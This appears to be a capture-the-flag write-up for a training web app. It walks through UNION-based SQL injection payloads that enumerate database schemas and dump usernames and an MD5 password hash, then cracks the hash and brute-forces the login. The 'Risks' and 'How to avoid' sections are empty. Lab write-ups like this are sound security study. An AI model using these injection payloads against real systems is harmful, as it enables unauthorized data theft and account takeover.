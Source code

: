 # a01 + a05

## How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
We understand that it looks for the content of db_default in the wrong database.
We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
- Username : admin
- Password : shadow

## Risks:


## How to avoid:


Sources:
* https://owasp.org/Top10/fr/A03_2021-Injection/
* https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
* https://www.sqlinjection.net/table-names/
* https://www.sqlinjection.net/column-names/
* https://www.acunetix.com/websitesecurity/sql-injection/